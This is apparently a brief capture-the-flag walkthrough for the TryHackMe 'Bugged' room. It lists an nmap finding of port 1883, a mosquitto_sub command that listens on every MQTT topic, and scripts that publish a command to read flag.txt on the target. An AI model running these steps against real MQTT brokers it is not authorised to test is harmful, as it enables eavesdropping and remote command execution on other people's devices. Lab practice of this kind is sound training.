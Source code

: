 # Bugged

[Bugged](https://tryhackme.com/room/bugged)

## Solution

- nmap scan: 1883

### Mosquitto

```
mosquitto_sub -v -h $IP -p 1883 -t '#'
```

### Flag

```
./sub.sh $IP
```

```
./pub.sh $IP CMD cat flag.txt
```
